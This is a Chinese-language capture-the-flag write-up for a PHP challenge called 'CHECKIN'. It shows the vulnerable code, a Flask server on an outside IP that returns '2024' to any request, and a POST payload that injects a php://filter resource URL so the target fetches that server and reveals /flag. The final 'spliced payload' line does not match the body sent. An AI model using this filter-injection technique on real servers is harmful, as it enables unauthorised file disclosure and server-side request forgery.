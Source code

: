 # CHECKIN

<img src="https://cdn.jsdelivr.net/gh/Xh1Xxhg/Pictures@main/CTF/checkin.jpg" alt="checkin" style="zoom:50%;" />

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$a=$_POST[1];
$b="php://filter/$a/resource=/dev/null";
if(file_get_contents($b)==="2024"){
    echo file_get_contents('/flag');
}else{
    echo $b;
}
```

当$a不输入内容时，$b为`php://filter//resource=/dev/null`

`file_get_contents`作用是获取所选内容

**exp(运行在服务器上)**

```python
from flask import Flask

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    return '2024'


if __name__ == '__main__':
    app.run(debug=True, port=6666, host='0.0.0.0')
```

- `@app.route()`是`Flask`框架的一个装饰器，扩展原本函数功能的一种函数
- `app = Flask(__name__)`创建`Flask`类的实例
- `@app.route('/', defaults={'path': ''})`：访问`127.0.0.1:6666`触发函数`catch_all`，创建默认参数`path`为空字符串，此句的意义是<u>防止访问根路径时path为空，传参造成报错</u>
- `@app.route('/<path:path>')`：访问路径`/path`的中的`path字符串`传参给变量`path`，然后最后传给函数`catch_all`，因为上面path默认设置为空，所以`exp`的意思是<u>无论访问什么路径，都会得到 '2024' 的响应</u>

**Payload**

```python
POST传参
content-type:application/x-www-form-urlencoded

URL:http://91d4c737-deed-4020-8f66-fa27dfdafbf2.game.hscsec.cn:8080/

传参Body:
1=read=string.toupper/resource=http://23.94.212.183:6666

拼接的payload:
php://filter//resource=/dev/null
```

